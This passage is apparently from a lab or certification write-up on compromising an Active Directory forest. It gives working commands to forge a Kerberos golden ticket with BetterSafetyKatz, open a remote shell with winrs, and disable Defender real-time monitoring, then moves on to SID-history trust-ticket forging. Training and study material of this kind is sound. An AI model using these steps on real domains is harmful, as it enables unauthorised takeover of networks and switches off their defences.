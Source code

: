 ![](https://i.imgur.com/Ch2hSca.png)
![](https://i.imgur.com/zxkbxun.png)

- Finally, we can use BetterSafetyKatz.exe to create a Golden ticket. Run the below command from an elevated command prompt

```
BetterSafetyKatz.exe "kerberos::golden /user:administrator /domain:tech.finance.corp /sid:S-1-5-21-1325336202-3661212667-302732393 /aes256:40e387636ed8c32ff3c1e3180a966860edd27d356c628824afa0e6bb006f9eb7 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

![](https://i.imgur.com/VMslTJH.png)

- Now check if ticket is injected successfully

```
klist
```

![](https://i.imgur.com/y2JaDiN.png)

- we should be able to access tech-dc with `winrs` now

```
winrs -r:tech-dc cmd
```

![](https://i.imgur.com/Ezh3LPP.png)

- Also go ahead and Disable Real Tme monitoring on TECH-DC

```
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

![](https://i.imgur.com/rdTLYQa.png)

# **05 - finance-dc.finance.corp**

***
## ***System Information***
***

Hostname: **FINANCE-DC**

IP Address: **172.16.-.-**

***
## **Steps to Compromise**
***

- To abuse the Parent Domain as Child to Parent using Trust Tickets. I used SID-History Injection attack and Forging the Trust Ticket to gain command execution on `finance-dc.finance.corp`
